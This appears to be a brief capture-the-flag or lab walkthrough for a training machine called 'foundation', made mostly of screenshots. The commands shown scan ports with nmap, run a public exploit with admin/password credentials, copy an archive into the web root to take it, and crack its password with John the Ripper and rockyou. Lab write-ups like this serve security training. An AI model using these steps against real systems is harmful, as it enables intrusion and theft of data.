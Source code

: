 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/46b3eebd-3b00-4c5c-b77e-90dd8649b59e)

```
nmap 192.168.2.11 -v -sC -sV -sT -p-
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/035ed021-38be-4e63-8270-fb2f2a864133)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fa958512-4acf-4958-984f-ccd4cfad714e)
```
sudo nano /etc/hosts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ce8c250-6f52-40b4-a3f2-40899c5d2c45)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e290b55-96a7-48b9-9d67-b2477d7f6f3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c75d4e0f-cf98-4bb5-a1cf-db6e6045325e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aee1b1bb-33ee-4c84-bced-2e5c09c020a8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be1b8116-e1ee-4703-b11c-a4dc6178beab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2f6f2791-0435-4e41-8a03-76fb79c4da59)

https://www.exploit-db.com/exploits/51741
```
python3 sc.py -u http://foundation/ -l admin -p password
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2604cb3a-0647-4bb4-addd-b95747e42d7f)

```
copy C:\IT-support\members.rar C:\xampp\htdocs\members.rar
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3e6d6d4c-a717-4243-a76a-25bba2b661ed)

```
rar2john members.rar > rar.hash
john --wordlist=/home/kali/PAYLOADS/rockyou.txt rar.hash
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4cfab936-c40f-49cb-9d88-6e8389be8deb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/45092782-9ac5-4cd6-b8ea-0b184a81d8b3)


